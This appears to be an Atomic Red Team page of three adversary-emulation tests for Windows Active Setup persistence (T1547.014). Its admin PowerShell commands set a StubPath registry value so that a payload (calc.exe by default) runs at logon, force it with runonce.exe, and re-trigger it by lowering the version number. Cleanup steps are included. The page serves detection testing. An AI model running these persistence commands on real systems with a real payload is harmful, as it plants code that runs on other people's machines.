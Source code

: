 ```yaml
---
tags: [T1547_014, atomic_test]
filename: "[[T1547.014 - Active Setup]]"
---
```

# T1547.014 - Active Setup

## Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup
This test will create an "atomic_test" key under 'HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components' to launch calc by configuring an active setup executable and 
forcing to run active setup using the "runonce.exe /AlternateShellStartup" command. 
Without the "runonce.exe /AlternateShellStartup" command it would run during the next logon for each user.

Note: If you logout before running the cleanup command, you will be required to go through the OOBE (out-of-box experience) setup sequence to log back in. 
The payload will only run once unless the cleanup command is run in between tests.

[Active Setup Explained](https://helgeklein.com/blog/active-setup-explained/)

**Supported Platforms:** Windows


**auto_generated_guid:** deff4586-0517-49c2-981d-bbea24d48d71





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components" -Name "atomic_test" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "(Default)" "ART TEST" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "StubPath" "#{payload}" -Force 
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
Remove-Item "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry
This test will add a StubPath entry to the Active Setup native registry key associated with 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) 
Said key doesn't have a StubPath value by default, by adding one it will launch calc by forcing to run active setup using runonce.exe /AlternateShellStartup. 
Without the last command it will normally run on next user logon. Note: this test will only run once successfully if no cleanup command is run in between test.

**Supported Platforms:** Windows


**auto_generated_guid:** 39e417dd-4fed-4d9c-ae3a-ba433b4d0e9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" "StubPath" "#{payload}" -Force
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "StubPath" -Force
Remove-ItemProperty "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Force
```





<br/>
<br/>

## Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number
This test will decrease the version number of the 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) registry key for the current user, 
which will force the StubPath payload (if set) to execute.

**Supported Platforms:** Windows


**auto_generated_guid:** 04d55cef-f283-40ba-ae2a-316bc3b5e78c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Value "0,0,0,0"
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```






<br/>
